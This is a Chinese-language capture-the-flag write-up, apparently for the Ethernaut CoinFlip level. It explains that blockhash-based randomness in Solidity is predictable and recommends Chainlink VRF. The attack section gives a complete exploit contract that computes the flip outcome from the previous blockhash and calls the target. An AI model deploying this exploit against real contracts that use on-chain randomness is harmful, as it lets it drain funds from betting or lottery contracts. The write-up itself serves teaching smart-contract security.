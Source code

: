 ```solidity
            return false;
        }
    }
}
```



### 分析

该代码使用已知数据进行计算，计算的数据输入在链上完全是公开的，可以自行通过计算得到

### 攻击

```solidity
// SPDX-License-Identifier: MIT

pragma solidity ^0.8.0;

contract Hack{

    error FlipFaild();

    CoinFlip private immutable target;

    uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;
    constructor(address _target){
        target = CoinFlip(_target);
    }

    function flip() external {
        if(!target.flip(_guess())){
            revert FlipFaild();
        }
        
    }

    function _guess() private view returns  (bool){
        uint256 blockValue = uint256(blockhash(block.number - 1));
        uint256 coinFlip = blockValue / FACTOR;
        bool side = coinFlip == 1 ? true : false;
        return side;
    }

}
```

### 笔记

- 通过solidity产生随机数没有那么容易. 目前没有一个很自然的方法来做到这一点, 而且你在智能合约中做的所有事情都是公开可见的, 包括本地变量和被标记为私有的状态变量. 矿工可以控制 blockhashes, 时间戳, 或是是否包括某个交易, 这可以让他们根据他们目的来左右这些事情.

- 想要获得密码学上的随机数,你可以使用 Chainlink VRF, 它使用预言机, LINK token, 和一个链上合约来检验这是不是真的是一个随机数.
